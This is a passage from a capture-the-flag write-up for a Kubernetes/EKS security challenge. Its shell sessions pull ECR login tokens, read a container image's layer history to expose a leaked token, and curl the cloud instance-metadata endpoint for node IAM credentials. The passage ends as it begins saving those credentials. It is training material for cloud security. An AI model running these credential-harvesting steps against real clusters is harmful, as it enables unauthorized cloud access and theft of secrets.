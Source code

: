 Let's use a neat command to get ECR login credentials.
```bash
root@wiz-eks-challenge:~# aws ecr get-login-password
eyJwYXlsb2FkIjoicjlEOCt4Vnd6N01QWEx5bjN5dWdXTmpoQkFEZnNQZndjU25FQmd6WmRzRUg3T3ZsdURhc[...] # omitted for brevity
root@wiz-eks-challenge:~# echo -n '[base64-encoded-data]' | base64 -d
{"payload":"r9D8+xVwz7MPXLyn3yugWNjhBADfsPfwcSnEBgzZdsEH7OvluDarr29d85HrD9gpASQmQQLZxuH4f9gKeR9gRXdJwuOd0Db8Nu2GpelnI+...=","datakey":"AQEBAHijEFXGwF1cipVOacG8qRmJoVBPay8LUUvU8RCVV0XoHwAAAH4wfAYJKoZIhvcNAQcGoG8wbQIBADBoBgkqhkiG9w0BBwEwHgYJYIZIAWUDBAEuMBEEDJJFy4z02QI5mGKA3gIBEIA7fP3drjQNErAUNDNqiuhBce8qTrbi2ril...","version":"2","type":"DATA_KEY","expiration":1757147299}
```
Great! Several decoding attempts later it was clear to me that this is binary authorization data and I just have to pass it to a login command and not try to decode it all.
```bash
root@wiz-eks-challenge:~# aws ecr get-login-password --region us-west-1 | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
2025/09/05 20:30:48 logged in via /home/user/.docker/config.json
```
Now let's finally dissect the image that we're given.
```bash
root@wiz-eks-challenge:~# kubectl get pods accounting-pod-acbd5209 -o yaml | grep '\- image:'
  - image: 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-579b0b7@sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4
root@wiz-eks-challenge:~# crane config 688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-579b0b7@sha256:78ed636b41e5158cc9cb3542fbd578ad7705ce4194048b2ec8783dd0299ef3c4 | jq
{
{...}
    {
      "created": "2025-08-13T11:22:17.044629915Z",
      "created_by": "RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{the_history_of_container_images_could_reveal_the_secrets_to_the_future} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
{...}
}
```
Et voila! And there we have it. Nicely hidden in docker image layer secret we've been looking for.

## Pod Break
> task:
> You're inside a vulnerable pod on an EKS cluster. Your pod's service-account has no permissions. Can you navigate your way to access the EKS Node's privileged service-account?

Policy:
```json
{}
```
Oh, this is a fun one. We have no permissions on a kubernetes cluster whatsoever and we have to access service account.

We can start with the same approach as in a previous task: obtain credentials from the instance metadata.
```bash
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/
eks-challenge-cluster-nodegroup-NodeInstanceRole
root@wiz-eks-challenge:~# curl 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole 2>/dev/null | jq
{
  "AccessKeyId": "ASIA2AVYNEVM2STWPOMB",
  "Expiration": "2025-09-05 21:33:34+00:00",
  "SecretAccessKey": "BY4ToDWNJniAbLyYzou...",
  "SessionToken": "FwoGZXIvYXdzECYaDNjSr8orzSsKmTYNbCK3AV9V7Vum3ITD7/..."
}
root@wiz-eks-challenge:~# mkdir -p ~/.aws && cat << EOF > ~/.aws/credentials
```